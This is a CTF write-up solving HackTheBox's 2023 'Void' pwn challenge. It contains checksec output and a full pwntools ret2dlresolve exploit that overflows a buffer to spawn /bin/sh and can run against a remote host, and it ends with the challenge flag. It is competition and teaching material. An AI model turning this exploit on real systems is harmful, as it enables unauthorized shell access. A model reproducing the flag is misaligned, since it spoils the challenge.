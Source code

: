 ```yaml
---
name: Void (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Void (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Void

## Description

> The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

## Solution

Check file properties and binary protections.

{% code overflow="wrap" %}
```bash
file void
void: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=a5a29f47fbeeeff863522acff838636b57d1c213, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

{% code overflow="wrap" %}
```bash
checksec --file void
[*] '/home/crystal/Desktop/challenge/void'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```
{% endcode %}

PwnTools script finds offset of 72 for RIP.

[ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) exploit works with little modification.

{% code overflow="wrap" %}
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe, level='warn')
    p.sendline(payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    warn('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './void'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library, can use pwninit/patchelf to patch binary
libc = ELF("glibc/libc.so.6")

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(100))

# Start program
io = start()

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop = ROP(elf)

rop.raw('A' * offset)
rop.read(0, dlresolve.data_addr)             # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)                 # call .plt and dl-resolve() with the correct, calculated reloc_offset

io.sendline(rop.chain())
io.sendline(dlresolve.payload)                # now the read is called and we pass all the relevant structures in

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{r3s0lv3_th3_d4rkn355}`
